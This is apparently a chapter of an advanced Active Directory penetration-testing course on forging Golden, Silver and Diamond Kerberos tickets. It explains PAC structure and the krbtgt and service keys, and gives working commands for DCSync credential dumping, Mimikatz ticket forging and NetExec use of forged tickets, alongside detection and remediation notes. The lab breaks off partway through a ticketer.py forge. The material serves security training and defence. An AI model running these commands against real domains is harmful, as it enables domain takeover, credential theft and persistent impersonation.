








**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 265 min

This is Chapter 6 of the Active Directory attack notebook — Notebook 18. Chapter 4 harvested crackable credential blobs with Kerberoasting and AS-REP Roasting; Chapter 5 showed that you never actually need to crack them, because the hash *is* the credential and the ticket *is* the session. This chapter takes the final step: instead of *stealing* a ticket that already exists, you **forge** one from scratch. If you hold the right encryption key, you can hand the domain a ticket it never issued and it will believe every word inside it — including who you are, which groups you belong to, and how long you may stay.

Three attacks share this idea. A **Golden Ticket** is a forged Ticket-Granting Ticket (TGT) signed with the domain's `krbtgt` account key. Because every Kerberos ticket in the forest ultimately traces its trust back to `krbtgt`, forging a TGT with that key lets you impersonate *anyone* — including a Domain Admin or a user that does not exist — for as long as you like. A **Silver Ticket** is a forged service ticket (TGS) signed with a *single service's* key (a computer account's or a service account's hash). It is narrower — it only unlocks one service on one host — but it is stealthier, because presenting it never requires talking to a Domain Controller. A **Diamond Ticket** (and its cousin the **Sapphire Ticket**) is the modern evolution: rather than fabricating a ticket field-by-field, you request a *real* TGT from the DC, decrypt it with the `krbtgt` key, quietly edit the PAC (say, to add Domain Admins), and re-encrypt it — producing a ticket whose structure is genuine because the DC actually built most of it.

The through-line is one fact you must internalise before anything else: **Kerberos is an offline trust system built on shared secret keys.** A ticket is not validated by phoning home on every use; it is validated by *decrypting it with a key* and trusting whatever plaintext falls out. Whoever holds the key that encrypts a ticket controls the contents of that ticket. Golden = you hold `krbtgt`'s key. Silver = you hold a service's key. Diamond = you hold `krbtgt`'s key *and* you start from a legitimate ticket so the result looks organic. Once that clicks, the three attacks stop being separate party tricks and become three applications of the same primitive.

These are among the most powerful persistence and impersonation techniques in the entire AD attack surface, which is exactly why they are heavily monitored. Everything here assumes an explicit, written, scoped engagement or a lab you built yourself (Part 12 shows how to stand one up). A Golden Ticket in a production forest is a domain-wide skeleton key; treat it with the gravity the defenders on the other side treat it.

---

## Part 1: The One Idea — Tickets Are Trusted Because of Keys, Not Round-Trips

Before any tooling, fix the mental model. In Chapter 4 and Chapter 5 you learned the shape of the Kerberos exchange. Recall the three-headed dog:

- The **KDC** (Key Distribution Center) runs on every Domain Controller and has two halves: the **Authentication Service (AS)**, which issues TGTs, and the **Ticket-Granting Service (TGS)**, which issues service tickets.
- A **TGT** (Ticket-Granting Ticket) proves *who you are* to the KDC. It is encrypted with the **`krbtgt` account's key**.
- A **TGS** (service ticket) proves you are allowed to talk to *one specific service*. It is encrypted with **that service's account key** (for a computer, the machine account's hash; for `MSSQLSvc`, the SQL service account's hash).

Here is the pivot that makes forgery possible. When a service receives a TGS, it does **not** call the DC to ask "did you issue this?" It simply **decrypts the ticket with its own key**. If the decryption succeeds and produces well-formed data, the service trusts it. The same is true of the KDC when it receives a TGT during a TGS-REQ: it decrypts the TGT with the `krbtgt` key and trusts the contents.

That is the whole vulnerability. Kerberos was designed to be *offline-verifiable* so the KDC would not be a bottleneck. The price of that design is that **possession of the encryption key equals authority to author tickets.** There is no per-ticket signature the DC checks against a database of issued tickets. There is no revocation list. A ticket is "real" if and only if it decrypts cleanly with the expected key.



Read that diagram carefully. The **Golden Ticket** still talks to the KDC — but only to *exchange* the forged TGT for service tickets. The KDC decrypts your forged TGT with `krbtgt`, finds valid plaintext, and happily issues you real TGS tickets for anything. The **Silver Ticket** skips the KDC entirely — you forge the service ticket directly and present it to the target, which decrypts it with its own key and grants access. That single structural difference — *does it touch the DC?* — drives every opsec and detection consequence in this chapter.

**Security relevance:** because possession of a key equals authorship, the crown jewel of the entire domain is the **`krbtgt` account's key**. It is the one secret that, if stolen, converts an attacker into an unlimited, self-service KDC. Everything in Part 2 exists to explain what that key protects and why rotating it is the only real cure for a Golden Ticket.

---

## Part 2: The PAC — the Real Payload Inside Every Ticket

If a ticket only proved identity, forgery would grant you a name and nothing else. The reason a forged ticket grants *power* is the **PAC**: the Privilege Attribute Certificate. This is the single most important structure in this chapter, and most people skip it — do not.

The PAC is a blob Microsoft embeds inside the encrypted part of every Kerberos ticket. It carries the *authorisation* data that Windows actually uses to build your access token:

- **User SID and primary group** — who you are.
- **Group SIDs** — every group you belong to, including the ones that grant privilege: `Domain Admins` (RID 512), `Enterprise Admins` (519), `Administrators` (544), `Schema Admins` (518).
- **Logon information** — logon time, logoff time, password-last-set, account expiry, the fields that let a service enforce logon-hours or expiry.
- **PAC signatures** — two (historically) checksums that let the KDC verify the PAC was not tampered with: the **Server Signature** (keyed with the service's key) and the **KDC Signature** (keyed with the `krbtgt` key). Modern DCs also add an **Extended KDC Signature** and, post-2022 hardening, a **Ticket Signature**.

Here is why the PAC is the whole game. When a service builds your Windows access token, it reads group membership **from the PAC, not from a live LDAP lookup**. So if you can put "Domain Admins" into the PAC and sign it with a key the verifier accepts, you *are* a Domain Admin to that service — regardless of what the directory actually says about your account.



The signatures are what forgery must satisfy. A **Golden Ticket** is signed with `krbtgt`, so both the Server Signature (of the *TGT*, whose "service" is `krbtgt` itself) and the KDC Signature validate. A **Silver Ticket** is signed with a single service key — it can produce a valid **Server Signature**, but historically it could *not* produce a valid **KDC Signature** because the attacker doesn't hold `krbtgt`. For years this didn't matter, because services **did not verify the KDC signature** by default — they only checked the server signature they could compute themselves. That gap is exactly what made Silver Tickets viable, and closing it (via PAC validation and the 2021–2022 signature hardening) is the main modern defence, covered in Part 10.

| PAC element | What it controls | Golden can forge it? | Silver can forge it? |
| --- | --- | --- | --- |
| User SID / RID | Which account you appear as | Yes | Yes |
| Group SIDs (512/519/544) | Privilege / admin membership | Yes | Yes (for that one service) |
| Server Signature | Integrity, keyed to service | Yes (krbtgt as service) | Yes (holds service key) |
| KDC Signature | Integrity, keyed to krbtgt | Yes (holds krbtgt) | **No** (doesn't hold krbtgt) |
| Ticket validity / lifetime | How long the ticket lives | Yes (default 10 yrs!) | Yes |

**The critical asymmetry:** a Golden Ticket can produce a *fully valid* PAC because the forger holds `krbtgt`. A classic Silver Ticket produces a PAC with a **broken KDC signature** — invisible historically, but detectable and increasingly rejectable on modern, patched domains. This is the single most important line in the chapter for understanding *why* Diamond Tickets were invented (Part 8): a Diamond Ticket starts from a *DC-issued* ticket, so its KDC signature is genuine.

### The PAC in more detail — the structures that matter

The PAC is not one blob but a container of typed buffers. Forgery tools populate a subset of them, and understanding which buffer holds what makes the tool flags stop being magic incantations:

- **`PAC_LOGON_INFO` (type 1)** — the heart of the PAC. A `KERB_VALIDATION_INFO` structure holding the user RID, primary group RID, the `GroupIds` array (the RID list your `-groups`/`/groups` flag fills), `UserFlags`, logon/logoff/kickoff times, and — crucially for Part 11 — the `ExtraSids` field where SID History is injected. When a service builds your token, *this* is the buffer it reads.
- **`PAC_CLIENT_INFO` (type 10)** — the client name and a timestamp; this is what a "username/SID mismatch" detection compares against the ticket's cname.
- **`SERVER_CHECKSUM` (type 6)** — the Server Signature, keyed with the *service* account's key.
- **`PRIVSVR_CHECKSUM` (type 7)** — the KDC Signature, keyed with `krbtgt`. This is the buffer a classic Silver Ticket cannot compute correctly.
- **`TICKET_CHECKSUM` (type 16)** and **`FULL_PAC_CHECKSUM` (type 19)** — added by the 2021–2022 hardening to bind the PAC to the whole ticket and defeat "Bronze Bit"–style downgrade. On enforcing DCs these are what break a hand-forged Silver Ticket.

You will see these exact buffer names scroll past in `ticketer.py`'s output (`PAC_LOGON_INFO`, `PAC_SERVER_CHECKSUM`, `PAC_PRIVSVR_CHECKSUM`) — now you know each line is the tool writing one PAC buffer. When Rubeus `describe` prints "Groups" it is decoding `PAC_LOGON_INFO.GroupIds`; when a detection flags a "PAC validation failure" it means `PRIVSVR_CHECKSUM` or `TICKET_CHECKSUM` did not verify against the DC's `krbtgt`.

---

## Part 3: The Two Keys That Matter — krbtgt and Per-Service

Everything reduces to two keys. Learn to identify and dump both.

### 3.1 The `krbtgt` account

`krbtgt` is a **disabled** built-in domain user account whose password nobody ever types. Its hash is used by the KDC to encrypt every TGT and to compute the KDC signature inside every PAC. It exists once per domain. Its NT hash (and AES keys) are the master key of the domain's Kerberos trust.

You obtain the `krbtgt` key the same way you obtain any domain secret once you have Domain Admin or the ability to run DCSync (replication rights): you pull it from the DC. Common routes:

```bash
# Impacket secretsdump via DCSync — pull ONLY the krbtgt account (least noise)
secretsdump.py -just-dc-user krbtgt 'CORP.LOCAL/Administrator:P@ssw0rd!@10.10.10.5'
```

Realistic output:

```text
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a59bd44fef9e6501a0ffb1f6d235c86:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5e3d1b... (64 hex chars)
krbtgt:aes128-cts-hmac-sha1-96:9a0c...
krbtgt:des-cbc-md5:...
[*] Cleanup(finished)
```

Three things to note. The **RID of `krbtgt` is always 502**. The NT hash (`1a59bd44...`) is what an RC4 Golden Ticket needs. The **`aes256-cts-hmac-sha1-96` key** is what an AES Golden Ticket needs — and AES is the stealthy choice (Part 9). You also need the **domain SID** (the `S-1-5-21-...` prefix), which you'll grab in the lab.

**Red team usage:** dumping the `krbtgt` key is the pivot from "we have Domain Admin *right now*" to "we have Domain Admin *forever*." A Golden Ticket survives the Domain Admin's password reset, account disable, even deletion — because it doesn't depend on that account at all. That is why `krbtgt` theft is treated as a **full domain compromise requiring rebuild-or-double-rotate**, not a simple password reset.

### 3.2 The per-service key (for Silver Tickets)

A Silver Ticket needs the hash of the account that *runs the target service*. Two cases:

- **Service runs as a computer account** (most host services — CIFS/file shares, HOST, RPCSS, LDAP on a DC, WSMAN/WinRM). The key is the **machine account hash** — the `MACHINE$` account. You get it from LSASS on that host, from the local registry (`SYSTEM`/`SECURITY` hives), or via DCSync for the machine account.
- **Service runs as a domain user** (e.g. `MSSQLSvc` running as `svc_sql`). The key is that **service account's NT/AES hash** — exactly the sort of thing Kerberoasting (Chapter 4) hands you.

```bash
# Dump the machine account hash of a specific computer via DCSync
secretsdump.py -just-dc-user 'FILE01$' 'CORP.LOCAL/Administrator:P@ssw0rd!@10.10.10.5'
```

The output line `FILE01$:1001:aad3b...:e3f9c1...:::` gives the NT hash of the `FILE01$` machine account — the key that encrypts every service ticket presented to FILE01's CIFS, HOST, and other computer-hosted services. Hold that hash and you can forge a Silver Ticket for `cifs/FILE01.corp.local` and read its C$ share as any user you like, **without ever contacting a DC.**

| Attack | Key you must hold | Where it comes from | Scope of power |
| --- | --- | --- | --- |
| Golden Ticket | `krbtgt` NT or AES key | DCSync / NTDS.dit on DC | Entire domain, any user, ~unlimited time |
| Silver Ticket (host svc) | `MACHINE$` hash | LSASS/registry on host, or DCSync | One host's services, no DC contact |
| Silver Ticket (user svc) | Service account hash | Kerberoast crack, LSASS, DCSync | That one SPN's service |
| Diamond Ticket | `krbtgt` AES key | DCSync / NTDS.dit on DC | Entire domain, looks DC-issued |

---

## Part 4: Tooling From Zero — Mimikatz, Rubeus, Impacket

Per the tool-from-scratch rule, meet the three front-ends before the lab. All three do the same math; they differ in platform and stealth.

### 4.1 Mimikatz

**What it is:** Mimikatz is a Windows post-exploitation toolkit written by Benjamin Delpy that manipulates Windows authentication internals — LSASS memory, credential material, and Kerberos tickets. It is the original Golden/Silver Ticket tool. Antivirus flags the on-disk binary aggressively, so in real engagements it is run reflectively (in-memory), from an obfuscated build, or replaced by Rubeus.

**Where it runs:** on a Windows host you already control, typically in an elevated context (Golden/Silver forging itself does not require admin, but injecting a ticket into another logon session with `pth`/`ptt` may, and dumping keys does).

**Core Kerberos verbs:**

```text
kerberos::golden   # forge a TGT (Golden) or, with /target+/service, a TGS (Silver)
kerberos::ptt      # inject a .kirbi ticket into the current session
kerberos::list     # list tickets in the current session
kerberos::purge    # wipe tickets from the current session
sekurlsa::ekeys    # dump Kerberos keys (AES included) from LSASS
lsadump::dcsync    # pull a specific account's hash via replication
```

A first look at the Golden syntax (dissected fully in the lab):

```text
mimikatz # kerberos::golden /user:Administrator /domain:corp.local
    /sid:S-1-5-21-1004336348-1177238915-682003330
    /krbtgt:1a59bd44fef9e6501a0ffb1f6d235c86
    /id:500 /ptt
```

Each flag maps directly onto a PAC field from Part 2: `/user` sets the principal name, `/sid` the domain SID, `/id` the RID, `/krbtgt` supplies the signing key, `/ptt` injects the result straight into memory instead of writing a `.kirbi` file.

### 4.2 Rubeus

**What it is:** Rubeus is a C# Kerberos abuse toolkit (part of the GhostPack suite) that has largely superseded Mimikatz for ticket work on modern engagements — it is easier to run in-memory via .NET loaders, has cleaner opsec, and implements Diamond Tickets natively. It does not dump LSASS itself; you feed it keys you already have.

**Core verbs used here:**

```text
Rubeus.exe golden   # forge a Golden Ticket (full offline PAC build)
Rubeus.exe silver   # forge a Silver Ticket
Rubeus.exe diamond  # request a real TGT, decrypt, modify PAC, re-encrypt
Rubeus.exe ptt      # inject a base64/.kirbi ticket
Rubeus.exe describe # decode and print a ticket's contents (great for learning)
Rubeus.exe asktgt   # request a normal TGT (used to seed diamond)
```

Rubeus prefers **AES keys** over RC4 by default for opsec, and `describe` is the single best learning tool in this chapter — feed it any ticket and it prints the encryption type, flags, validity window and (with the right verbosity) PAC group RIDs.

### 4.3 Impacket

**What it is:** Impacket is a Python suite of low-level network protocol implementations (SMB, MSRPC, Kerberos) plus example scripts. It runs from **Linux** — your Kali box — which is why it is the operator's default for ticket forgery from outside a Windows session.

**Core scripts:**

```text
ticketer.py     # forge Golden AND Silver tickets (offline)
getST.py        # request a service ticket (also does S4U, used for diamond-like flows)
secretsdump.py  # DCSync to pull krbtgt / machine / service hashes
lookupsid.py    # brute the domain SID and enumerate RIDs
getPac.py       # request and dump a PAC
```

`ticketer.py` writes a **ccache** file (`.ccache`), the Linux/MIT Kerberos ticket format. You then point the `KRB5CCNAME` environment variable at it and every Impacket tool (`psexec.py`, `wmiexec.py`, `smbclient.py`) will use the forged ticket transparently — this is the Linux equivalent of Mimikatz `/ptt`.

### 4.4 NetExec (nxc)

**What it is:** NetExec (`nxc`, the maintained successor to CrackMapExec) is a Linux network-execution swiss-army knife that speaks SMB, WinRM, LDAP, MSSQL, RDP and more. It is not a ticket *forger*, but it is the fastest way to *use* a forged ticket at scale and to confirm your ticket works before pivoting to a heavier tool. Install with `pipx install netexec` (or it's preinstalled on modern Kali).

**Using a forged ticket with NetExec:** point `KRB5CCNAME` at your ccache, then pass `--use-kcache` (use the Kerberos cache) and `-k`:

```bash
export KRB5CCNAME=Administrator.ccache
nxc smb DC01.corp.local -k --use-kcache
# SMB  DC01.corp.local  445  DC01  [+] corp.local\Administrator (Pwn3d!)
```

The `(Pwn3d!)` marker means the forged identity has admin on the target — an instant green light that your Golden or Silver Ticket is valid. Flag map: `smb` selects the SMB protocol, `-k` enables Kerberos auth, `--use-kcache` tells nxc to read the ticket from `KRB5CCNAME` rather than prompting for a password. You can fan a validated Golden Ticket across a whole subnet — `nxc smb 10.10.10.0/24 -k --use-kcache -x whoami` — to enumerate exactly where your forged DA lands, before ever touching a noisier RCE tool.



**CTF/practical note:** on HackTheBox and TryHackMe AD boxes, the standard pattern once you reach DA is `secretsdump.py -just-dc-user krbtgt` -> `ticketer.py` -> export `KRB5CCNAME` -> `psexec.py -k -no-pass`. Recognise it; it appears constantly.

---

## Part 5: Anatomy of a Golden Ticket

A Golden Ticket forges a **TGT**. Because a TGT's "service" is the `krbtgt` account, and you hold `krbtgt`'s key, you can build the entire ticket — encrypted blob and both PAC signatures — with no gaps. The KDC will then accept your TGT in any TGS-REQ and issue you real service tickets for anything in the domain.

To forge one you need exactly five ingredients:

1. **Domain name** — e.g. `corp.local`.
2. **Domain SID** — the `S-1-5-21-...` prefix (not including the trailing RID).
3. **`krbtgt` key** — NT hash (for RC4) or AES256 key (for stealth).
4. **A username to impersonate** — can be a real DA, or a *nonexistent* account. The name is cosmetic; power comes from the SID+RID+groups.
5. **A RID** — `500` (built-in Administrator) is common; the group SIDs are what actually grant privilege.



### Why a Golden Ticket is such a nightmare to remediate

- **It ignores the impersonated account.** Reset the DA's password, disable it, delete it — the Golden Ticket still works, because it never authenticates *as* that account against the directory; it just asserts a SID and groups the KDC trusts because the PAC signature checks out.
- **Default lifetime is absurd.** Mimikatz historically defaulted forged TGT lifetime to **10 years**, ignoring the domain's real ticket policy (default 10 hours). That single tell (a decade-long TGT) is a classic detection, so skilled operators set realistic lifetimes.
- **The only cure is rotating `krbtgt` — twice.** Because Kerberos keeps the *current and previous* `krbtgt` password (so in-flight tickets don't break), you must reset the `krbtgt` password **two times**, with enough delay for replication, to fully invalidate every Golden Ticket. Resetting once leaves the old key valid.
- **It can impersonate accounts that don't exist,** including SIDs from other domains via **SID History** (`/sids` flag), enabling cross-domain and forest escalation from a child domain.

**Blue team usage:** the highest-fidelity Golden Ticket tells are (a) a TGS-REQ (event **4769**) for a ticket whose corresponding TGT was never issued via an AS-REQ (**4768**) — a TGS with no matching AS-REQ — and (b) tickets with anomalous lifetimes or RC4 encryption in an AES-only domain. Part 10 turns these into concrete Sigma logic.

---

## Part 6: Anatomy of a Silver Ticket

A Silver Ticket forges a **TGS** for one specific service, signed with that service's own key. Its defining property: **presenting it never contacts a Domain Controller.** You forge the service ticket offline and hand it straight to the target service, which decrypts it with its own key and trusts it. No AS-REQ, no TGS-REQ, no 4768/4769 on the DC — the event, if logged at all, appears only on the *target host*.

To forge one you need:

1. **Domain name** and **domain SID** (as before).
2. **The service account's hash** — the `MACHINE$` hash for host services, or the service user's hash for a user-run SPN.
3. **The SPN** — the service you're targeting, e.g. `cifs/file01.corp.local`, `host/file01.corp.local`, `mssqlsvc/sql01.corp.local:1433`, `http/web01.corp.local`.
4. **The target host's FQDN** and the **user + RID + groups** to embed.



### The trade-off: stealth vs scope, and the KDC-signature flaw

A Silver Ticket is **stealthier** (no DC involvement) but **narrower** (one service on one host). It also carries the structural weakness from Part 2: the attacker holds the service key but **not** `krbtgt`, so the **KDC signature in the PAC is invalid**. Historically, services never checked that signature, so it didn't matter. Two changes eroded this:

- **PAC validation:** when enabled, a service asks the KDC to verify the PAC, which catches the bad KDC signature. This is off for many services by default but is the intended defence.
- **The 2021–2022 signature hardening (CVE-2020-17049 "Bronze Bit" / the November 2021 & 2022 rollups):** Microsoft strengthened PAC signatures and added a **Ticket Signature**, so forged PACs with mismatched signatures are increasingly rejected once enforcement mode is on. On fully patched, enforcing DCs, classic RC4 Silver Tickets can fail — which, again, is why Diamond Tickets exist.

### Useful Silver Ticket SPNs and what they unlock

| SPN | Service | What a Silver Ticket grants |
| --- | --- | --- |
| `cifs/host` | SMB file access | Read/write shares, `dir C$` |
| `host/host` | Host service (many SCM ops) | Scheduled tasks, service control |
| `host/host` + `rpcss/host` | WMI | Remote WMI exec (wmiexec) |
| `http/host` | WinRM / web | PowerShell Remoting (evil-winrm) |
| `ldap/dc` | LDAP on DC | DCSync-style operations (combined with rights) |
| `mssqlsvc/host:1433` | SQL Server | Authenticate to SQL as the impersonated user |
| `cifs/host` + `host/host` | PsExec | `psexec.py` remote code execution |

**Red team usage:** because a Silver Ticket for `cifs/` + `host/` on a single server lets you PsExec into it with **zero DC telemetry**, it is a premier *persistence and stealth-lateral-movement* primitive — you keep the machine account hash, and you can silently return to that one box for as long as its computer password doesn't rotate (default 30 days — a real constraint, see Part 10).

---

## Part 7: The Lab — Forge Golden and Silver Tickets End to End

Now build it for real. This lab assumes you already reached Domain Admin (from Chapter 5's lateral movement) on a lab domain you own. Environment:

- **DC:** `DC01.corp.local` — `10.10.10.5`, domain `CORP.LOCAL`.
- **Member server:** `FILE01.corp.local` — `10.10.10.20`, hosts a `C$` share.
- **Attacker:** Kali at `10.10.14.7`, plus a Windows foothold for the Rubeus/Mimikatz half.
- Compromised DA creds: `CORP.LOCAL\Administrator:P@ssw0rd!` (obtained earlier).

### Step 0 — Recover the domain SID and krbtgt key

```bash
# Grab the krbtgt NT hash + AES keys via DCSync
secretsdump.py -just-dc-user krbtgt 'CORP.LOCAL/Administrator:P@ssw0rd!@10.10.10.5'
```

```text
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a59bd44fef9e6501a0ffb1f6d235c86:::
krbtgt:aes256-cts-hmac-sha1-96:5e3d1b7f9a...c21  (64 hex)
```

Recover the domain SID (the prefix, without a trailing RID). `lookupsid.py` brute-forces RIDs and prints the base SID:

```bash
lookupsid.py 'CORP.LOCAL/Administrator:P@ssw0rd!@10.10.10.5' 0
```

```text
[*] Domain SID is: S-1-5-21-1004336348-1177238915-682003330
498: CORP\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CORP\Administrator (SidTypeUser)
512: CORP\Domain Admins (SidTypeGroup)
502: CORP\krbtgt (SidTypeUser)
...
```

Record `S-1-5-21-1004336348-1177238915-682003330`. Everything below reuses it.

### Step 1 — Forge a Golden Ticket with Impacket (Linux)

```bash
ticketer.py -nthash 1a59bd44fef9e6501a0ffb1f6d235c86 \
    -domain-sid S-1-5-21-1004336348-1177238915-682003330 \
    -domain corp.local \
